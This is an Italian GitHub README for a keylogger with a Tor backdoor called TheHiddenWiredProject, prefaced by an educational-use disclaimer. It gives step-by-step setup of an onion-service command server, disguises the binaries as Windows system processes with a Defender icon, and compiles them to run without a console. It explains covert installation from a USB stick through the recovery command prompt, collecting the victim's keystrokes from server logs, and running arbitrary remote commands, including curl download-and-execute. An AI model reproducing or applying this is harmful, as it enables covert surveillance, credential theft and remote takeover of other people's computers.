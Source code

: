 <a href="README_ENGLISH.md">CLICK HERE FOR ENGLISH README</a> 
<pre>
QUESTO PROGETTO É STATO CREATO SOLO A SCOPO EDUCATIVO E SPERIMENTALE, NON USARLO SU PC CHE NON SONO DI TUA PROPRIETÀ O NON FANNO PARTE DEL TUO LAB VIRTUALE!
ANCHE SE I NOMI SCELTI SONO ULTRA STEALTH NON SIGNIFICA CHE DEVE ESSERE USATO IN MODO SBAGLIATO!
Non mi assumo alcuna responsabilità per eventuali danni diretti, indiretti o collaterali derivanti dall’uso improprio o non autorizzato di questo strumento. L’utilizzo avviene esclusivamente sotto la piena responsabilità dell’utente.
  


--------------------------------------- TheHiddenWiredProject ---------------------------------------

Cosa è TheHiddenWiredProject?
TheHiddenWiredProject (THWP) è un keylogger con backdoor integrata pensato per essere ultra stealth
perchè tutto il traffico generato è instradato via Tor!

È sicuro?
Yeah bro, è 100% safe, il codice lo puoi modificare come vuoi senza problemi, mentre Tor ti aiuta
a nascondere il tuo server (serve per ascoltare il keylogger e usare la backdoor).

Quindi devo configurare un server?
Yeah, è necessario per avere un livello di anonimato abbastanza alto

É pronto all'uso?
Assolutamente no, lo devi compilare tu, è ultra facile, continua a leggere che dopo lo spiego

Lo consigli?
Assolutamente si! Questo tool è estremamente compatto, ma nello stesso tempo ultra stealth,
non troveresti mai un keylogger con una backdoor via Tor su internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Avvia proxy, Brain e Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Scaricato dal sito ufficiale, ma rinominato)
wuasrvs.py ---> Avvio di Tor ritardato per evitare errori
installer.bat ---> Installatore da WindowsPE

----------------------------------------------------------------------------------------------------

Passiamo alla teoria noiosa che è necessaria per configurare il server e compilare THWP

Partiamo dai requisiti necessari...

Un PC o una VM con linux (consiglio una distro debian-based come debian, ubuntu, mint.. ecc...)
Una connessione internet stabile (almeno 2Mbitps)

----------------------------------------------------------------------------------------------------
Creare e configurare il server Tor:

#Per evitare problemi diventa root con "sudo su"

#installa apache e tor
sudo apt install apache2 tor

#esegue ad ogni avvio in automatico
sudo systemctl enable apache2
sudo systemctl enable tor

#esegue i demoni
sudo systemctl start apache2
sudo systemctl start tor

#configura il server apache
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (qui ci stanno i comandi che il target eseguirá ogni 60 secondi)

#modifica il file torrc
sudo nano /etc/tor/torrc

#Aggiungi le seguenti informazioni alla fine del file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#La prima stringa "HiddenServiceDir" specifica dove tor andrà a salvare la config del server (NON METTERE DIRECTORY CUSTOM PER EVITARE PROBLEMI, LASCIALA COSÍ)
#La seconda stringa hosta sulla porta 80

#Adesso devi riavviare Tor per rendere effettive le modifiche
sudo systemctl restart tor

#Se hai dubbi vai su: https://community.torproject.org/onion-services/setup/
#Oppure chiedi a ChatGPT

#Adesso devi vedere il tuo dominio su tor, lo puoi vedere con:
cat /var/lib/tor/serverTHWP/hostname

#Per evitare problemi diventa root con "sudo su"

----------------------------------------------------------------------------------------------------

Adesso devi configurare TheHiddenWiredProject per fare in modo che indirizza il traffico verso il tuo dominio,
quindi modifica il file Isass.py, trova una variabile che si chiama "TARGET_ONION" (la trovi all'inizio),
e metti il tuo dominio (quello che finisce per .onion che hai trovato dentro il file hostname)

----------------------------------------------------------------------------------------------------

Adesso é tutto pronto! Puoi testare su una VM Windows il funzionamento, se tutto funziona puoi compilare tutto!

Per compilare tutto é necessaria una macchina Windows, useremo nuitka per trasformare i nostri file in python in eseguibili.

1) Installa Python nella macchina Windows (Non da MStore ma dal sito ufficiale)
2) Adesso apri il terminale e digita: pip install nuitka (Se pip non viene trovato, riavvia Windows dopo aver installato Python)
3) Adesso digita: nuitka --onefile --windows-disable-console file.py

#--onefile = unico file .exe
#--windows-disable-console = no prompt quando viene eseguito

4) Esegui nuitka per ogni file .py (Isass.py, WMIHost.py, wuasrvs.py)
5) Dopo aver compilato tutti i file py devi compilare SecurityHealthSystray.bat con Bat-To-Exe-Converter (Cercalo su internet) NB: INSTALLER.BAT DEVE RIMANERE RAW, NON DEVE ESSERE COMPILATO!
6) Aggiungi l'icona di defender al file .bat dentro il compilatore per avere un .exe con l'icona di Defender
----------------------------------------------------------------------------------------------------

Adesso hai quasi finito!
Copia il progetto compilato dentro una pendrive, copia il file installer.bat nella directory principale della chiavetta, rimuovi la cartella "WPE" (É fondamentale)
e il risultato dovrebbe essere questo:

E:\Isass.exe
E:\Installer.bat
E:\SecurityHealthSystray.exe
E:\WMIHost.exe
E:\wuasrv.exe
E:\wuasrvs.exe

Se non corrisponde hai sbagliato qualcosa.


Come lo installo??
1) Avvia Windows
2) Una volta che ti trovi nella schermata di blocco, vai nel menu di spegnimento, tieni premuto "SHIFT" mentre premi su "Riavvia"
3) Dovresti leggere a schermo "Attendere"
4) Dopo il riavvio vai su: Risoluzione dei problemi > Opzioni avanzate > Prompt dei comandi
5) Adesso cerca la lettera della chiavetta (varia da PC a PC), prova dalla C alla J (basta scrivere nel prompt la lettera seguita dai due punti, quindi "c:")
6) Una volta trovata la pendrive esegui installer.bat
7) Il PC si riavvierá da solo e TheHiddenWiredProject sará installato!
8) Divertiti!
----------------------------------------------------------------------------------------------------

Adesso come controllo i tasti premuti?
I tasti premuti vengono salvati nel server su "/var/log/apache2/access.log" in base32 in stack da 32 caratteri, bisogna decodificare da base32 a plaintext, basta cercare su internet "base32 to text", incolli la request e vedi i tasti premuti.

Esempio:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/ORSXG5BBEE======" 404

Prendiamo in considerazione solo la base 32, quindi questa: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA e questa: ORSXG5BBEE======
se la decodifichiamo diventa: 

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

Invece per eseguire codice nella macchina, tramite la backdoor, basta modificare il file: /var/www/html/payloads_httpcmd/default.txt
e scrivere codice shell per Windows, e verrá eseguito con i privilegi dell'utente corrente, possiamo anche scaricare file con curl ed eseguirli.
Ma attenzione, devi fare in modo che il codice shell non venga eseguito in loop, perché cosí rischi di fare casino, quindi una volta che vedi 
la richiesta del payload rimuovi il contenuto di default.txt, altrimenti il codice verrá eseguito ogni 60 secondi!

----------------------------------------------------------------------------------------------------

DIVERTITI IN MODO ETICO E SANO, SENZA FARE DANNI REALI A PERSONE, DATI O SISTEMI CHE NON TI APPARTENGONO!

                                                             Creato al 100% con la testa di ElektroWindows :)

</pre>
